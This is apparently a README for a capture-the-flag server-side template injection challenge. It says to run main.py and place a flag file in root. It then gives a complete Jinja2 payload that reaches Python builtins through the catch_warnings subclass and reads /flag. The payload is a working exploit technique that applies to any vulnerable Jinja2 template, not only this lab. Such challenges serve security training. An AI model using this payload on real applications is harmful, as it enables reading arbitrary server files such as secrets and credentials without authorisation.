 # SSTI

## How to run

```python main.py```

## Note [Important]
put a flag file in root.

## Exploit

```
{%for c in [].__class__.__base__.__subclasses__() %} {% if c.__name__=='catch_warnings' %} {{ c.__init__.__globals__['__builtins__'].open('/flag', 'r').read() }} {% endif %} {%endfor%}
```
